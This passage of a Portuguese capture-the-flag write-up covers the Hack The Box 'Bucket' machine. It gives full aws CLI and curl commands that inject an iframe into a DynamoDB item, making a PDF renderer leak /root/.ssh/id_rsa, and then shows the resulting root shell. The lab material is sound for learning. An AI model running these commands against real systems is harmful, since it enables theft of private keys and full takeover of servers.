 Uma vez que conseguimos renderizar o conteúdo desejado, precisamos encontrar uma forma de incluir arquivos na página renderizada e que resulta no PDF, de modo a dar continuidade na exploração.

A forma mais fácil de obter o root flag seria importar o arquivo `/root/root.txt`, porém isso não nos dá um shell reverso de fato. Seguindo o exemplo da máquina [**Passage**]({% post_url 2021-03-06-htb-passage %}), podemos buscar por um arquivo `/root/.ssh/id_rsa` e nos conectar à máquina via shell interativo, porém nosso maior problema no momento é inserir o conteúdo destes em um arquivo HTML.

Após algumas pesquisas, a forma mais simples de alcançar este objetivo sem o uso de Javascript é utilizando um **iframe**, onde as alterações, para a qual incluí a tag `<iframe src="/root/.ssh/id_rsa" seamless></iframe>` no HTML utilizado anteriormente, conforme chamadas abaixo:

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><iframe src=\"/root/.ssh/id_rsa\" seamless></iframe></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/    
```

Após o procedimento foi possível baixar o aquivo `/var/www/bucket-app/files/result.pdf` e, com o conteúdo presente neste arquivo, criar o arquivo `id_rsa`, o qual foi posteriormente utilizado para conectar-se à máquina via SSH e obter a shell a partir do usuário `root`.

```bash
root@bucket:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bucket:~# cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês novamente em breve no próximo post! :smiley:
